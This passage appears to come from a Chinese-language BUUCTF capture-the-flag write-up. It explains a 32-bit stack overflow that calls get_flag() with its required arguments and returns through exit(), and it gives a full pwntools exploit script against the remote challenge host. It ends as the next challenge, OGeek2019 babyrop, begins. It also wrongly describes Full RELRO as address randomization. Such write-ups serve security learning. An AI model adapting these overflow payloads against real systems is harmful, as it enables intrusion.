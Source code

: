 


get_flag()有两个参数，a1和a2。这里我已经将a1和a2转换成了十六进制。if对a1和a2进行了一个判断，符合条件后进行对flag的读取。具体读取过程为：首先v2对flag.txt文件进行一个读取，v3用getc()来接收v2读取的值(getc():从指定的流stream获取下一个字符(一个无符号字符)，并把位置标识符往前移动)。在v3不为255时，将值传给v4，用中间变量v5来读取v2的值，并且在v5不为255时，将v5的值赋给v4并输出v4，最终输出的结果就是flag

但是我们发现通过main()的stackoverflow单纯的跳到get_flag()这个函数是无法拿到flag的，这里是因为我们在stackoverflow时覆盖了a1和a2，破坏了输出flag的条件，从而无法得到flag。我们试想，如果我们在stackoverflow时保护了栈结构，使程序达到输出flag的条件，正常退出，是否就可以拿到flag？

于是我们需要`exit()`的地址，以及满足条件的a1和a2的值，即`0x308CD64F`和`0x195719D1`

**exp**

```py
from pwn import *
context(os = "linux" , arch = "i386" , log_level = "debug")
elf = ELF('./pwn1')
io = remote('node4.buuoj.cn',27026)
ret = 0x08048196
exits = elf.sym['exit']
success("got exit addr : %s" % hex(exits))
payload = b"a" * 0x38 + p32(0x080489A0) + p32(exits) + p32(0x308CD64F)+ p32(0x195719D1)
io.recvuntil("Qual a palavrinha magica? " , timeout = 0.5)
io.sendline(payload)
io.recvline()
io.interactive()
```

## [OGeek2019]babyrop

先checksec一下，nx排除了shellcode的可能，Full RELEO为地址随机化

先观察主函数，设定了一个闹钟(但是这道题不需要使用解除闹钟的方法)

![](buuctf%E5%88%B7%E9%A2%98%E8%AE%B0%E5%BD%95/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-03-13%20095347-1678706371578-4.png)
